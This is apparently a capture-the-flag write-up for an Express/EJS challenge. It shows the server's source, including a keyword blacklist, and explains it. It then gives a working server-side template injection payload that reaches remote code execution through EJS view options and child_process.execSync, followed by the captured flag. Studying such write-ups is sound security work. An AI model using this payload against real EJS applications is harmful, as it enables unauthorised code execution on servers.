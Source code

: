 # 🎓🌎 Express JavaScript Security
> My first JavaScript project.

## About the Challenge
We were given a source code that contains some files with `.js` and `.ejs` extensions (You can download the file [here](dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909)). Here is the content of main.js

```js
const express = require('express');
const ejs = require('ejs');

const app = express();

app.set('view engine', 'ejs');

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]

app.get('/', (req, res) => {
    return res.render('index');
});

app.get('/greet', (req, res) => {
    
    const data = JSON.stringify(req.query);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```

This is a Node.js Express server application that uses the EJS templating engine to render views. The server listens on port 3000. The application has two main routes: the root route ('/') and the '/greet' route. When accessing the root route, it renders the 'index' view. When accessing the '/greet' route, it checks the query parameters, converts them to a JSON string, and looks for any blacklisted items within the data. If any blacklisted item is found, it returns a 400 response with the message "Can you not?". Otherwise, it parses the JSON data, renders the 'greet' view with the parsed data and disables caching. And then here is the content of `greet.ejs`

```js
<html>

<body>
    <h1 style="font-family: <%= font %>; font-size: <%= fontSize %>px;">
        Hello <%= name %>
    </h1>
</body>

</html>
```

## How to Solve?
At first, we are using this [website](https://eslam.io/posts/ejs-server-side-template-injection-rce/) to perform Remote Code Execution, but `outputFunctionName` is blacklisted. Therefore, we need to find another working payload. Finally, I found another working payload after doing some googling. (Check out this [website](https://blog.z3ratu1.cn/hxpCTF2022wp.html)). Here is the final payload I used to solve this challenge:

```
http://ejs.web.seetf.sg:1337/greet?name=test&font=test&fontSize=test&settings[view%20options][client]=1&settings[view%20options][escape]=%7B%7D.constructor.constructor(%22return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)%22)
```

I am executing the `/readflag` command to obtain the flag.


[Image extracted text: 6 
Not secure
ejsweb seetfsg:1337/greet?name-test&font-test&fontSize-test&settings[view%2Ooptions][client]= 1&settinc
Hello SEE{Oh_
no_hOw_dld_ylu_ch4ng3_my_OptlOns}]


```
SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}
```